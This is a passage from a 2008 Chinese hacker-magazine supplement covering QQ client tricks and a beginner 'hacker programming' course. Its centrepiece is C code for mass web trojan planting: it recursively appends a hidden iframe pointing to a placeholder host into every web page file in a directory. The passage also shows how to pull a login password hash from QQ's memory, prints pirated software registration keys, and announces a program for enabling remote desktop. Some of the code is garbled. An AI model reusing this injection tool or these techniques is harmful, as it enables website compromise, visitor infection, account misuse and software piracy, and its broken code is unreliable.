很多朋友说在网吧登录QQ的时候，登录框里有图片显示是“某某网吧专用版”，其实这是QQ的登录框被修改了，方法很简单的，只要修改这个登录框所对应的图片就可以了。

准备工具：PE Explorer汉化版、QQ2008（当然其他的版本也可以借鉴此方法，但不保证都能正常运行）

- 1、先关闭QQ，然后打开QQ所在的目录，找到“LoginCtrlRes.dll”这个文件，将这个文件复制备份一下，在修改后出了问题可以恢复。  
备份小技巧：按住CTRL键，将“LoginCtrlRes.dll”拖动一下即可复制出一个“复件 LoginCtrlRes.dll”文件。

- 2、打开PE Explorer，点击左上角的“文件”，文件类型选择为“.dll”，然后选择QQ的主目录，找到“LoginCtrlRes.dll”这个文件。

- 3、打开“LoginCtrlRes.dll”文件后，点击PE Explorer工具栏上的“资源查看/编辑”按钮，如图14。

- 4、在“资源编辑器”里我们选择“位图”-“963”，如图15，这个图片就是QQ登录界面的图片。如果大家想修改其它图片，可以点击其它的位图资源号来选择查看。  
这里我以修改“963”里面的图片为例来为大家进行演示。


- (1) 首先选择“963”，然后按鼠标右键，选择“编辑资源”，如图16。


- (2) 这时会弹出一个修改图片的对话框，我们需要准备一个尺寸为324×47像素的BMP图片，如图17。


- (3) 点击“替换为”前面像一个文件夹的图标，然后选择一张做好的尺寸为324×47像素的BMP图片（你可以根据自己的喜好自己制作），接着会提示你数值已经被修改，是否继续。我们当然是选择“是”啦！

- (4) 最后点击PE Explorer工具栏的“文件”，然后选择“另存为”保存为同名文件。这时你重新运行QQ，登录框上的图片就已经是被修改过的图片了，如图18。


借这个机会，我再说手机版QQ的启动图片的修改方法，也是简单的。大家先把一张适合你手机屏幕分辨率的png格式图片重命名为splash_logo.png，然后复制到手机里/System/Apps/QQ目录下替换同名文件即可！

## 三、修改QQ性别为任意文字

此修改方法只适合QQ2007，不适合QQ2008及后续版本，在QQ2008的版本中即使按照下面的方法修改了，也只是显示成“不公开”。

所需工具：QQ2007、eXeScope 6.50

具体步骤如下：

- 1、打开QQ的主目录，找到“QQRes.dll”文件，然后备份。

- 2、使用eXeScope打开“QQRes.dll”，在左边依次点击“资源”－“对话框”－“17254”。选中“性别”下方的“ComboBox”，然后在“组合框”中选择“下拉”，最后点击工具栏上的第四个按钮“保存更新”即可，如图19。


登录QQ，然后在“性别”这里就可以输入你想要的字符了（注意：服务器只能接受2个字符或是1个汉字），接着在“个人说明”里面随便输入什么或者删除什么，最后点击“应用”就完全搞定了，如图20。

## 第三部分 高级QQ技巧

## 一、阻止QQ号码在本地登录

### 1、阻止指定QQ号码

如果想阻止某一个QQ号码在本地登录，其实是很简单的，在电脑上做一个小小的限制就可以实现。下面我以阻止QQ124829875在本机登录为例给大家演示一下设置步骤。

- (1) 此方法只适合NTFS的磁盘类型。  
首先需要去掉“使用简单文件共享”，我们依次选择“我的电脑”－“工具”－“文件夹选项”－“查看”，然后去掉“使用简单文件共享”前面的勾。  
接着打开QQ的主目录，然后在主目录下面建立一个名为“124829875”（目录名与要阻止的QQ号一样）的文件夹，接着在该文件夹上点击鼠标右键，选择“属性”，再选择“安全”。

## 非安全·黑客手册2008第一增刊

项，在右下角的“拒绝”这里勾选全部，如图21。


这样设置后，124829875这个QQ号就无法在这台电脑上登录了。（2）有人会问，我不是NTFS的磁盘类型也能实现阻止指定QQ登录吗？当然可以，方法更简单。首先打开你的QQ主目录，随便打开一个号码文件夹，然后找到一个名为“MsgEx.db”的文件，如图22。


将“MsgEx.db”文件复制到你想限制登录的QQ号码的文件夹，这时如果登录这个号码将会提示你密码错误，如图23。


相信大家学到这里都已经看明白了，主要是因为QQ登录时会对相关文件和文件夹进行读取和写入一些数据，只要我们对其写入或者读取的文件及文件夹做一下“设置”，那么就能实现限制QQ登录了。如果你在使用QQ时无法登录，有可能别人就用了以上方法对QQ进行了设置，你只要反其道而行之就可以了。

### 2、阻止任意QQ号码

###### (1) ws2_32.dll

这个文件是很神奇的一个文件，如果QQ的文件夹下多出这么一个文件的话，那么就会有很意外的提示。打开QQ的主目录，然后新建一个“文本文档”或者“文件夹”，将其重命名为“ws2_32.dll”，注意不含引号。

这时如果你运行QQ，就会提示：“应用程序或DLL X:\XXXX\WS2_32.dll为无效的Windows映像，请再检测一遍您的安装盘。”，如图24。

是不是很有趣？要是想恢复的话，删除“ws2_32.dll”文件即可。另外，这个方法不仅适用于QQ，基本上很多的应用程序都会受到影响。


图24

那么我们就来看看这个“ws2_32.dll”文件的庐山真面目吧：

- ws2_32 - ws2_32.dll - DLL文件信息
- DLL文件：ws2_32或者ws2_32.dll
- DLL名称：WinSock 2.0 32bit
- 描述：ws2_32.dll是Windows Sockets应用程序接口，用于支持Internet和网络应用程序。
- 属于：Windows Sockets
- 系统DLL文件：是
- 常见错误：File Not Found, Missing File, Exception Errors
- 安全等级(0-5)：0
- 间谍软件：否
- 广告软件：否

###### (2) WizardCtrl.dll

这个“WizardCtrl.dll”文件也是很有意思的，如图25，当我们登录过QQ之后将此文件删除，再次进行登录时，就只能登录已经登录过的QQ号码，要是登录新的QQ号码就无法登录，而且没有任何提示。


图25

#### (3) 使用路由器限制QQ登录

这个方法比较适合企业的一些网管，主要就是通过获得QQ登录的IP，然后对其IP进行屏蔽，实现QQ无法登录。这里我以TP-Link 541G+这款路由器为例给大家演示一下，其他的路由器也可以借鉴这种方法。

### ① 获得QQ的登录服务器的IP

新建一个文本文档，然后将下面的代码复制进去，保存为*.bat的文件，如QQIP.bat。

```bat
ping -n 1 sz.tencent.com >1.txt
ping -n 1 sz1.tencent.com >>1.txt
ping -n 1 sz2.tencent.com >>1.txt
ping -n 1 sz3.tencent.com >>1.txt
ping -n 1 sz4.tencent.com >>1.txt
ping -n 1 sz5.tencent.com >>1.txt
ping -n 1 sz6.tencent.com >>1.txt
ping -n 1 sz7.tencent.com >>1.txt
ping -n 1 sz8.tencent.com >>1.txt
ping -n 1 sz9.tencent.com >>1.txt
ping -n 1 tcpconn.tencent.com >>1.txt
ping -n 1 tcpconn1.tencent.com >>1.txt
ping -n 1 tcpconn2.tencent.com >>1.txt
ping -n 1 tcpconn3.tencent.com >>1.txt
ping -n 1 tcpconn4.tencent.com >>1.txt
ping -n 1 tcpconn5.tencent.com >>1.txt
ping -n 1 tcpconn6.tencent.com >>1.txt
```

解释一下以上代码的意思，其实就是利用ping的功能，然后将ping得到的结果保存在1.txt里面。ping -n 1表示只ping该地址一次；>1.txt表示建立一个名为1.txt的文本；>>1.txt表示追加数据到1.txt里面。

经过对ping结果的整理，可以得知QQ的登录服务器大致有以下几个IP段：

- 219.133.0.0-219.133.254.254
- 58.60.1.1-58.60.254.254
- 58.61.1.1-58.61.254.254
- 58.251.1.1-58.251.254.254
- 121.14.1.1-121.14.254.254
- 218.17.1.1-218.17.254.254

### ② 屏蔽IP

接下来进入路由器对这些IP进行屏蔽。在浏览器中输入路由器的管理地址http://192.168.1.1/（不同的路由器可能地址不一样），然后打开“安全设置”，选择“防火墙设置”。

第一步，勾选“开启IP地址过滤”，下面的“缺省过滤规则”设置为“凡是不符合已设IP地址过滤规则的数据包，允许通过本路由器”。

第二步，勾选“开启域名过滤”，如图2。


选择“IP地址过滤”，然后点击右边的“添加新条目”，在“广域网IP地址”这里填写获取的IP段，如图2。协议选择“ALL”，端口为默认；如果你只想限制某一段内网IP也可以填入内网的IP地址；如果想设置某段时间不能登录，可以在“生效时间”这里填入时间。

接着选择“域名过滤”，然后点击右边的“添加新条目”，在域名处填入“tencent.com”后保存。

## 有Q皆备——QQ技巧与保护

### 三、QQ假视频聊天

准备软件：虚拟摄像头（Softcam）v1.51

大家在用QQ视频聊天时如果不想自己的真面目被对方知晓，可以用这个软件模拟一个虚拟的视频，呵呵。

##### 1、安装软件

双击安装程序即可马上安装，这时会提示你注册，我提供几个注册码供大家使用，填写到相应的对话框，如图28，然后点击“确认”就可以开始安装了。


注册码：  
user: gameboy  
email: gameboy@21cn.com  
key: LMSC-9DE5-1FEF-EDDF-DBC6  
——————————————  
user: softcam  
email: softcam@softcam.com  
key: LMSC-2D75-EFDF-5D4F-6B06

### 2、软件与QQ设置

安装完毕之后依次选择“开始”-“程序”-“Luminositi”-“Softcam”即可打开虚拟摄像头，接下来点击软件左边的“内容”，双击下面内容里面的“Fly Girl Overlay In Office”，这时在右边的预览框里面就可以看到你设置的视频了，如图29。


当然我们也可以自己添加视频，点击“新内容”，然后在“内容标签”输入名称，如“nohack”。接着在下面的“显示内容”处选择一个视频文件，文件格式只可以是AVI，不然会无法播放，如图30。


这样在预览窗口就可以看到刚才添加的视频了。现在我们还需要在QQ视频设置里面进行修改，这样才能使用假视频进行聊天。

随意登录一个QQ，然后在屏幕右下角的QQ企鹅图标上按鼠标右键，选择“工具”－“语音视频调节”。在“音频设置”这里直接“下一步”，然后就是视频设置了。

我们点击softcam左边的“内容”，然后选择我们刚才添加的“nohack”，这时QQ的视频设置里面就出现了我们添加的视频，如图31，最后点击“完成”。


哈哈，大功告成，可以开始跟别人视频聊天了，如图32。


### 三、提取QQ的截图功能

准备软件：QQ2006正式版（或者“CameraDll.dll”文件）

下载地址：http://dl_dir.qq.com/qqfile/qq2006standardkb2.exe

QQ截图工具（从QQ2008中提取）下载地址：http://www.box.net/shared/209y47c0gs

个人觉得QQ的截图功能是非常容易上手的，唯一的不足就是必须要开启庞大的QQ，所以今天就教大家如何提取QQ的截图功能。

安装好QQ，然后打开QQ的主目录，默认为C:\Program Files\Tencent\QQ\。从中找到一个名称为“CameraDll.dll”的文件，先将其复制进行备份。

### 1、我们有三种方式来实现截图功能：

#### 第一种：

将“CameraDll.dll”文件复制到系统的“WINDOWS\system32”文件夹下，默认为C:\WINDOWS\system32，然后点击“开始”－“运行”，输入“Rundll32.exe CameraDll.dll, CameraSubArea”便可以开始截图了，如图33。


#### 第二种：

将“CameraDll.dll”文件复制到系统的“WINDOWS\system32”文件夹下，默认为C:\WINDOWS\system32，然后新建一个记事本文件，输入下面的代码，将其保存为“*.reg”的注册表文件，如QQ.reg。

```reg
Windows Registry Editor Version 5.00
[HKEY_CLASSES_ROOT\Folder\shell\QQ]
@="QQ截图"
[HKEY_CLASSES_ROOT\Folder\shell\QQ\command]
@="Rundll32.exe CameraDll.dll, CameraSubArea"
```

然后双击“QQ.reg”注册表文件，选择“导入”即可。现在我们在盘符上按鼠标右键就会看到一个“QQ截图”的选项，如图34。


#### 第三种：

我们还可以将“CameraDll.dll”文件“发送到桌面快捷方式”，然后设置快捷方式的相关参数来调用。

先将“CameraDll.dll”文件复制到系统的“WINDOWS\system32”文件夹下，默认为C:\WINDOWS\system32。再将“CameraDll.dll”文件“发送到桌面快捷方式”，然后点击“CameraDll.dll”快捷方式的“属性”，在“目标”处输入“rundll32.exe CameraDll.dll, CameraSubArea”，“运行方式”修改为“最小化”，如图35，这样每次使用QQ截图的时候只需要点击这个快捷方式就可以了。


### 2、关于QQ2008版本的截图功能提取

相信大家都希望提取QQ2008的截图功能，因为QQ2008可以对所截的图片进行简单的编辑，从而省去了二次编辑的麻烦。但是QQ2008等版本对“CameraDll.dll”文件做了调整，不能简单地调用“CameraDll.dll”文件来独立使用截图功能，需要对多个dll文件进行修改，所以就不推荐大家手动去提取了。

其实已经有人做出这样的软件了，所以我们使用别人的软件就可以了，如图36。


### 四、手工打造QQ自动登录器

准备软件：WinHex汉化版

下载地址：http://www.crsky.com/soft/1151.html

相信大家在很多网站上都下载过什么QQ自动登录器、QQ批量上号器，毕竟是别人写的软件，心里总有点不安，生怕自己的QQ被盗了。好，那今天就来教大家手工获取QQ的登录信息并实现QQ自动登录。

首先我们登录自己的QQ号码，然后在WinHex中选择我们执行的QQ文件，如图37。


然后在屏幕右下角的QQ企鹅上按鼠标右键，选择“好友与资料”，再点击“更新好友”。等更新好友完了之后我们再打开WinHex的界面，选择图标工具栏上的“打开RAM”。这时弹出一个对话框，我们选择其中的“Qq #4048”（注意这个数字4048会随时变化），再选择“整个内存”，如图38。


点击“编辑主内存”上的“确定”，然后会有提示，不用管，继续点击“确定”即可。接着按“Ctrl+F”就会出现搜索对话框，我们输入“PWDHASH”，如图39。


点击“确定”之后就会搜索到我们需要的信息了，代码如下：

```text
/START QQUIN:12345678 PWDHASH:jplJ52wvuLMpK0dFxqYPua== /STAT:40 /EMB_HWND:0
```

QQUIN：QQ号；PWDHASH：加密的密码；/STAT:40（40是隐身登录，41是正常登录）是登录方式。

选择好代码之后，如图40，按鼠标右键依次选择“编辑”－“复制选块”－“标准”，这样就成功地复制了这段登录代码。为了方便我们的自动登录，还需要做一个简单的登录快捷方式。


来到QQ的主目录，在“QQ.exe”文件上按鼠标右键，选择“发送到桌面快捷方式”，然后打开这个快捷方式的属性，将代码粘贴到“目标”这行的QQ程序的后面，格式为“你的QQ路径 你的登录信息”，如“C:\Program Files\Tencent\qq\QQ.exe” /START QQUIN:45678 PWDHASH:jplJ52wvuLMpK0dFxqYPua== /STAT:40 /EMB_HWND:0”，如图41。


确定后双击这个快捷方式，哈哈，是不是已经开始自己登录了。

[本章所涉及的相关软件已经收录在光盘中！]

## 从最简单做起——黑客编程基础速成


编程是黑客学习道路上的一道坎，一个难关。但是，高深的技术是我们广大读者追求的目标，就像武侠世界中的侠客追求至高武学一样。假如把黑客比作侠客，那么黑客编程就像是一门高深的内功，学会了此般武功，一草一木都能克敌（嘿嘿，像写武侠小说了）。

武学修炼艰险万般，编程学习也是困难重重的。能习得高深武功是每个侠客的梦想，我们黑客技术爱好者也有梦想，那就是掌握更高的技术，给我们带来不一样的愉悦。

### 一、初涉黑客编程

假如你已经学习了编程的基础知识（国内最有名的C语言基础教材要属谭浩强的《C语言程序设计》），那么你会发现，你还是看不懂Windows应用程序的代码。那这是为什么呢？其实原因非常简单。首先，是因为在系统编程当中用到了很多API函数。用户模式下的编程，就是API函数调用的组合，当然这是要求在有一定操作系统知识的前提下的。再者，在系统编程当中，出现了许多新的变量类型。

那么首先来讲讲API函数吧。所谓API就是Application Programming Interface的缩写，其实就是操作系统留给应用程序的一个调用接口，应用程序通过调用操作系统的API而使操作系统去执行应用程序的命令。

其实早在DOS时代就有API的概念，只不过那个时候的API是以中断调用的形式（INT 21h）提供的，在DOS下运行的应用程序都直接或间接地通过中断调用来使用操作系统功能。而在Windows中，系统API是以函数调用的方式提供的，API函数都是包含在系统DLL中的导出函数。

DLL文件不能直接执行，它们通常由EXE在执行时装入，其内含有一些资源以及可执行代码等，比如系统DLL中就含有API函数的执行代码。

假如看了上面的这些描述还没有理解API函数是什么，那么你就暂且这么认为吧：API函数就是微软为编程人员写好的很多函数，编程人员只需要直接调用就可以了。

下面再来给大家讲讲系统编程当中常用的一些变量类型：

| 类型名 | 长度 | 和它一样的变量类型 |
|---|---|---|
| DWORD | 4字节 | unsigned long |
| WORD | 2字节 | unsigned short |
| BYTE | 1字节 | unsigned char |
| PVOID | 4字节 | void * |
| HANDLE | 4字节 | 可以转换成四字节的其他类型，但一般都不这样做 |

上面的这些变量中，前四个一看就应该明白了，我重点来讲解下第五个HANDLE变量类型。“HANDLE”变量译成中文就是“句柄”，那么在Windows中什么是句柄呢？

### 二、建立一个 VC 工程

本文的程序我们都用 VC++6.0 来编写，所以首先要学会如何用 VC++6.0 来建立工程。像木马、后门这样的程序为了隐藏，一般都是无窗口的，也就是运行后看不出屏幕上有任何变化；还有像 NC 那样的程序，运行后会出现一个黑乎乎的窗口（叫控制台程序）；当然还有一些有华丽窗口的程序，像木马的控制端，这样的程序在 VC++6.0 中可以用 MFC 来实现。但是这里我们并不会讲到它，因为它是很多 API 函数封装成类后的产物，初学者学习 MFC 不利于理解程序的执行过程，所以会越学越累。MFC 是给高手用的东西，这里我们就来建立前两种工程。

首先运行 VC++6.0，单击菜单栏上的“File（文件）”，然后选择“New（新建）”，在出现的窗体中选择“Projects（工程）”，并在“Project name”文本框中填写工程名，“Location”文本框中填写工程保存路径，如图 1 所示。


### 小提示

假如需要建立 Windows32 位应用程序（无窗口工程），可以选择“Win32 Application”；要建立控制台程序（黑乎乎的窗口），可以选择“Win32 Console Application”，然后点击“OK”即可。

在接下来出现的窗体中，假如是无窗体工程，则选择“A simple Win32 application”；如果是控制台程序，则选择“A simple application”，然后单击“Finish（完成）”，一个工程就建好了，如图 2、图 3 所示。


图 2


图 3

### 三、文件操作编程

在文件操作编程这一部分，我们将要完成一个批量挂马的实例程序。通过这个程序的学习，从而掌握基本的文件搜索和文件读写的方法。这样，大家就有能力去编写其他文件操作相关的程序了，比如清除日志、捆绑文件等。

那么一个批量挂马的程序它要求我们实现哪些功能呢？我们可以通过它的执行流程来分析。首先程序必须遍历某个目录及其子目录下的所有文件，并且判断此文件是不是可以挂马的文件类型（这里我把 php、asp、aspx、htm、html、jsp 为后缀名的文件作为了可以挂马的对象），当此文件的后缀名符合条件时，就把挂马代码写入此文件的末尾。

上面的过程就是批量挂马程序的执行流程。通过以上分析，我们的批量挂马程序就可以分为三个功能模块：

- 1、遍历一个目录及其子目录下的所有文件
- 2、判断此文件的后缀名是否符合挂马要求
- 3、在一个文件中写入挂马代码

在 MSDN 中，这两个函数的描述是一样的，功能是用于查找指定路径的主文件夹的子目录和文件。但是在实际编程中，我们必须先调用 `FindFirstFile` 函数获得一个句柄，然后才能调用 `FindNextFile` 函数继续查找文件，因为 `FindNextFile` 函数的第一个参数是由 `FindFirstFile` 函数返回的句柄。

还是先来学习下 `FindFirstFile` 函数，函数原型如下：

```c
HANDLE FindFirstFile(
  LPCTSTR lpFileName,
  LPWIN32_FIND_DATA lpFindFileData
);
```

`lpFileName` 参数指向要查找文件名（包含路径），可以包含通配符 `*` 和 `?`，但不能超过 `MAX_PATH` 的长度；

`lpFindFileData` 参数是输出参数，它指向了一个 `WIN32_FIND_DATA` 结构。结构用来描述找到的文件或文件夹的属性，此结构具体定义如下：

```c
typedef struct _WIN32_FIND_DATA {
    DWORD    dwFileAttributes;       // 文件的属性
    FILETIME ftCreationTime;         // 创建文件的时间
    FILETIME ftLastAccessTime;       // 最近一次访问文件的时间
    FILETIME ftLastWriteTime;        // 最近一次修改文件的时间
    DWORD    nFileSizeHigh;          // 文件大小的高位字
    DWORD    nFileSizeLow;           // 文件大小的低位字
    DWORD    dwReserved0;            // 保留，未使用
    DWORD    dwReserved1;            // 保留，未使用
    TCHAR    cFileName[MAX_PATH];    // 文件的名称
    TCHAR    cAlternateFileName[14]; // 文件的替换名称，用文件名.后缀名表示
} WIN32_FIND_DATA, *PWIN32_FIND_DATA;
```

如果函数调用成功，则返回可供函数 `FindNextFile` 和函数 `FindClose` 使用的查找句柄，否则返回 `INVALID_HANDLE_VALUE`。

下面该来看看第二个函数 `FindNextFile` 了：

```c
BOOL FindNextFile(
  HANDLE hFindFile,
  LPWIN32_FIND_DATA lpFindFileData
);
```

`hFindFile` 参数指向了函数 `FindFirstFile` 返回的查找句柄；`lpFindFileData` 参数和 `FindFirstFile` 函数一样，指向了一个 `WIN32_FIND_DATA` 结构。如果函数调用成功，则返回可供函数 `FindNextFile` 和函数 `FindClose` 使用的查找句柄，否则返回 `INVALID_HANDLE_VALUE`。

当然，遍历完一个目录后，必须调用 `FindClose` 函数关闭查找句柄，这个函数只有一个参数，它指向了一个已经打开的查找句柄。

但是在这里我要很不幸地告诉大家，仅仅只靠这两个函数的简单组合，我们只能遍历一个目录下的文件和文件夹，不包括子文件夹里的文件和文件夹。比如 A 目录下有文件 `1.txt` 和目录 B，并且 B 目录下有 `2.txt`，那么调用这两个函数遍历 A 目录时，只能找到 `1.txt` 和目录 B，而 B 目录下的 `2.txt` 是不能找到的。

要解决这个问题也是非常简单的，在这之前我们先来学会遍历一个目录（不包括子文件夹下的文件和文件夹）。在遍历一个目录时，首先使用 `FindFirstFile` 函数，如果执行成功，返回 `hFindFile` 来对应这个查找操作。接下来可以利用这个句柄循环调用 `FindNextFile` 函数继续查找其他文件，直到该函数返回失败，表示遍历完此目录下的所有文件和文件夹了。最后还要调用 `FindClose` 函数关闭 `hFindFile` 句柄。

查找文件一般使用下面的框架代码：

```c
WIN32_FIND_DATA findData;
HANDLE hFindFile;

hFindFile = FindFirstFile(lpFileName, &findData);
if (hFindFile != INVALID_HANDLE_VALUE)
{
    do
    {
        // 对找到的文件进行处理
    }
    while (FindNextFile(hFindFile, &findData));
}
```

现在该讲的都讲完了，下面来解决前面留下的无法完全遍历一个目录下子目录中的目录及文件的问题。一般有两种方法来解决，一种是利用链表（这种方法在我写的《精通黑客编程》一书中讲过了，希望大家多多去买呀，这书是由咱们的《黑客手册》出品的），这种方法相对比较难理解。这里我们学习第二种方法，用递归的方法来解决（忘了什么是递归的朋友，赶快去找 C 语言基础书籍，趁这个机会恶补一下吧），具体过程如图 4 所示。


图 4

从图 4 中可以清楚地看出，查找一个目录，假如找到的是文件夹，则把此文件夹作为参数传递给此函数，继续查找这个文件夹下的文件和文件夹。如果找到的是文件，就进行后续操作，如此循环，直到找到所有文件为止。

这里把遍历一个目录及其子目录下的所有文件的功能封装成了一个函数，下面来看看具体代码吧：

```c
void FindFileWrite(char *dir, char *data)
{
    char oldDir[256];
    strcpy(oldDir, dir);
    // *.* 表示查找所有文件
    strcat(dir, "\\*.*");

    WIN32_FIND_DATA findData;
    HANDLE hFindFile;
    hFindFile = FindFirstFile(dir, &findData);
    if (hFindFile != INVALID_HANDLE_VALUE)
    {
        // ...
    }
}
```

```c
do
{
    // 假如是本目录或者是上层目录，本目录名为“.”上层目录名为“..”
    if (findData.cFileName[0] == '.')
        continue;

    // 假如是文件夹
    if (findData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
    {
        char tempDir[256];
        // 构造完整路径
        wsprintf(tempDir, "%s\\%s", oldDir, findData.cFileName);
        // 递归查找
        FindFileWrite(tempDir, data);
    }
    // 假如是文件
    else
    {
        // bFileName 函数是用来判断是否是可挂马文件的，下面会讲到
        if (!bFileName(findData.cFileName))
            continue;

        char fileName[256];
        // 构造完整路径
        wsprintf(fileName, "%s\\%s", oldDir, findData.cFileName);
        // WriteData 函数写入挂马代码，下面会讲到
        WriteData(fileName, data);
        printf("%s\n", fileName);
    }
}
while (FindNextFile(hFindFile, &findData));

FindClose(hFindFile);
```

此函数的第一个参数指向了要批量挂马的目录，第二个参数指向了挂马代码的字符串。这样，第一个功能就轻松地搞定了！下面我们来完成第二个功能。相对来说，第二个功能就更 easy 了！程序只需要找到文件名中“.”所在的位置，那么在它后面的字符串就是文件的后缀名了，接下去只需要和我们定义的可挂马文件后缀名进行比较，看看是否相同就可以了。

既然如此简单，就直接来看代码吧，也封装成了一个函数，就是前面提到过的 `bFileName` 函数：

```c
BOOL bFileName(char *fileName)
{
    for (int i = 0; fileName[i]; i++)
    {
        // 判断是否达到了“.”字符所在的位置
        if (fileName[i] == '.')
        {
            // 比较是不是定义的可以挂马的后缀名
            if ((!strcmp(&fileName[i+1], "htm") && strcmp(&fileName[i+1], "html"))
                && strcmp(&fileName[i+1], "asp") && strcmp(&fileName[i+1], "php")
                && strcmp(&fileName[i+1], "aspx") && strcmp(&fileName[i+1], "jsp"))
            {
                ...
            }
        }
    }
}
```


此函数只有一个参数，它指向了一个文件名。假如后缀名是可挂马后缀名中的一种，返回 TRUE；否则返回 FALSE。

接下去只剩最后一个功能要实现了，就是把挂马代码写入到文件，也就是上面调用的 `WriteData` 函数。在涉及到代码之前，我们先来了解下读写文件的一般流程，如图 5 所示。


从图 5 中可以看出，要对文件进行读写操作，首先要调用 `CreateFile` 函数打开或者创建文件。那么我们学习下这个函数吧：

```c
HANDLE CreateFile(
    LPCTSTR lpFileName,
    DWORD dwDesiredAccess,
    DWORD dwShareMode,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    DWORD dwCreationDisposition,
    DWORD dwFlagsAndAttributes,
    HANDLE hTemplateFile
);
```

`lpFileName` 参数指向要创建或打开的文件名，要包含全路径，如“c:\\a.exe”；`dwDesiredAccess` 参数表示存取文件的方式，它指向了要对文件进行何种操作；`GENERIC_READ` 表示以只读方式打开文件；`GENERIC_WRITE` 表示以只写方式打开文件。当然，两个参数可以组合使用，如 `GENERIC_WRITE | GENERIC_READ` 表示以可读可写方式打开；

`dwShareMode` 参数指明了文件的共享方式，也就是当文件被打开后，其他程序能以何种方式打开文件。这里介绍几种重要的取值：0 表示不允许文件再被打开；`FILE_SHARE_READ` 表示允许其他程序以读方式打开；`FILE_SHARE_WRITE` 表示允许其他程序以写方式打开；`lpSecurityAttributes` 参数指定了文件的安全属性，一般用 `NULL` 即可；

`dwCreationDisposition` 参数指明了当文件存在或不存在时的操作。这里介绍几个重要的取值：

- `CREATE_ALWAYS`：如果文件存在，以覆盖文件的方式创建
- `CREATE_NEW`：如果文件不存在则创建文件，存在则调用失败
- `OPEN_ALWAYS`：如果文件存在就打开文件，不存在则创建文件
- `OPEN_EXISTING`：如果文件存在则打开文件，不存在则失败

`dwFlagsAndAttributes` 参数表示新建的文件的属性，具体如下：

- `FILE_ATTRIBUTE_ARCHIVE`：存档类型
- `FILE_ATTRIBUTE_HIDDEN`：隐藏类型
- `FILE_ATTRIBUTE_READONLY`：只读类型
- `FILE_ATTRIBUTE_SYSTEM`：系统类型

`hTemplateFile` 参数指向用于存取的模板文件的句柄。系统会复制模板文件的所有属性到新创建的文件，没有则填 `NULL`。

函数调用成功返回文件句柄，失败则返回 `INVALID_HANDLE_VALUE`。

此函数的具体调用如下：

```c
以只读方式打开已存在的文件：

hFile = CreateFile("c:\\hack.htm", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

以只写方式打开已存在的文件：

hFile = CreateFile("c:\\hack.htm", GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

总是创建一个新文件：

hFile = CreateFile("c:\\hack.htm", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
```

当 `CreateFile` 函数被成功调用后，就返回了所打开或者所创建的文件的句柄，就完成了图 5 中的第一步。接下去我们可以调用 `SetFilePointer` 函数移动文件指针，那么什么是文件指针呢？

当一个文件被打开时，系统就会为它维护一个文件指针，指向对文件的下一个读写操作的位置。所以，随着文件的读写，文件指针也会随之移动。

`SetFilePointer` 函数就是设置文件指针位置的，此函数的定义如下：

```c
DWORD SetFilePointer(HANDLE hFile,
                     LONG lDistanceToMove,
                     PLONG lpDistanceToMoveHigh,
                     DWORD dwMoveMethod);
```

`hFile` 参数指定了一个已打开的文件句柄；

`lDistanceToMove` 参数指定了移动文件指针的字节数，若为正值则在文件中把指针向前移动，若为负值则向后移动；

`lpDistanceToMoveHigh` 参数一般为 `NULL` 即可；

`dwMoveMethod` 参数指定了移动的起始位置，有三种取值：`FILE_BEGIN` 表示起点为文件的开始；`FILE_CURRENT` 表示起点为文件指针当前位置；`FILE_END` 表示起点为文件末尾。

#### 文件写入

默认指向文件的起始位置。

完成了第三步之后，接下去就可以调用 `WriteFile` 和 `ReadFile` 函数读写文件了，这两个函数的原型如下：

```c
BOOL WriteFile(HANDLE hFile,
               LPCVOID lpBuffer,
               DWORD nNumberOfBytesToWrite,
               LPDWORD lpNumberOfBytesWritten,
               LPOVERLAPPED lpOverlapped);

BOOL ReadFile(HANDLE hFile,
              LPVOID lpBuffer,
              DWORD nNumberOfBytesToRead,
              LPDWORD lpNumberOfBytesRead,
              LPOVERLAPPED lpOverlapped);
```

`hFile` 参数指向要读写的文件的句柄，由 `CreateFile` 函数返回；`lpBuffer` 参数指向一个缓冲区，用于存储读写的数据；`nNumberOfBytesToWrite/nNumberOfBytesToRead` 参数表示要求写入或读取的字节数；`lpNumberOfBytesWritten/lpNumberOfBytesRead` 参数用于返回实际写入或读取的字节数；`lpOverlapped` 参数是指向 `OVERLAPPED` 结构的指针，设为 `NULL` 即可。读取或写入成功，函数返回 `TRUE`，否则为 `FALSE`。

在完成了文件的读写操作后，还不能忘记把文件句柄关闭，以便于其它程序对文件的操作，也就是图 5 中的最后一步，这里调用 `CloseHandle` 函数来关闭文件句柄。这个函数只有一个参数，为已打开的文件句柄。

有了前面这些基础，我们再来看第三部分功能模块的代码就不吃力了，具体代码如下：

```c
void WriteData(char *fileName, char *data)
{
    HANDLE hFile = CreateFile(fileName, GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE)
    {
        return;
    }

    SetFilePointer(hFile, 0, NULL, FILE_END);
    DWORD dwWrite;
    // 把数据写入文件
    WriteFile(hFile, data, strlen(data) + 1, &dwWrite, NULL);
    // 关闭文件句柄
    CloseHandle(hFile);
}
```

到此为止，文件操作这部分内容就学习完了，本实例只需要调用 `FindFileWrite` 函数就可以轻松地完成批量挂马任务了。在 `main` 函数中的具体调用如下：

```c
int main(int argc, char* argv[])
{
    char data[256] = "<iframe src=\"http://www.xxx.cn\" width=0 height=0></iframe>";
    if (argc != 2)
    {
        printf("参数错误\n");
    }
}
```

这里用到了 main 函数的两个参数，这两个参数是为带参执行而准备的，argc 表示参数的个数，包括自身文件名；argv[] 指向了参数的内容。比如执行“1.exe 123”，那么 argc 的值就为 2，argv[0] 所指向的数据为“1.exe”，argv[1] 所指向的数据为“123”，依此类推。最后来看下程序的执行效果吧，如图 6 所示。


图 6

### 四、注册表操作编程

注册表在 Windows 操作系统中占有相当重要的位置，它存放着大量的系统配置信息，我们可以把它看成是 Windows 的一个配置文件。正因为如此，注册表操作在黑客编程中也会经常用到，比如加载启动项、开启远程终端等。

在本节内容中，我会和大家一起来通过编程实现一个开启远程终端（俗称开启3389）的小程序。既然是对注册表操作，那么在写程序之前，我们先来了解下注册表的基本结构吧，如图 7 所示。


图 7

